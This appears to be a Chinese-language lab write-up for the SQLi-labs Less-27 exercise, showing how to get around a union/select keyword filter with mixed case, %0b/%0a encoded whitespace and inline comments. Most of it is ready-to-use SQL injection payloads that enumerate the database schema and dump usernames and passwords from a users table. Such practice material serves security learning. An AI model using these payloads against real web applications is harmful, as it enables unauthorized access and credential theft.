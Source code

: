 可以使用大小写、空格变换写法绕过

用 URL编码%0b 和 大小写union、select 进行绕过

内联注释/**/则是注释指定部分

```
/?id=10000000'%0buNion%0bsElect%0b1,2,3 ||  '1'='1

```

![image-20220116134430138](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less27-union-select过滤.assets/image-20220116134430138.png)

```
?id=10000000'%0buNion%0bsElect%0b1,database(),3 ||  '1'='1

?id=10000000'%0buNion%0bsElect%0b1,2,group_concat(table_name)%0bfrom%0binformation_schema.tables%0bwhere%0btable_schema="security" || '1'= '1

?id=10000000'%0buNion%0bsElect%0b1,2,group_concat(table_name)%0bfrom%0binformation_schema.tables%0bwhere%0btable_schema="security" || '1'= '1
```

![image-20220116140258302](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less27-union-select过滤.assets/image-20220116140258302.png)



```
?id=0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,database(),2/*%0a*/||/*%0a*/'1'='1

?id=0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1，(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema="security"),3||'1'='1

?id=0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1，(group_concat(table_name)),3/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema="security"||'1

?id=0'%0buniOn%0bsElEct%0b1,(group_concat(column_name)),3%0bfrom%0binformation_schema.columns%0bwhere%0btable_schema='security'%0bAnd%0btable_name='users'%0b%26%26%0b'1'='1

?id=0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),3/*%0a*/||/*%0a*/'1'='1
```
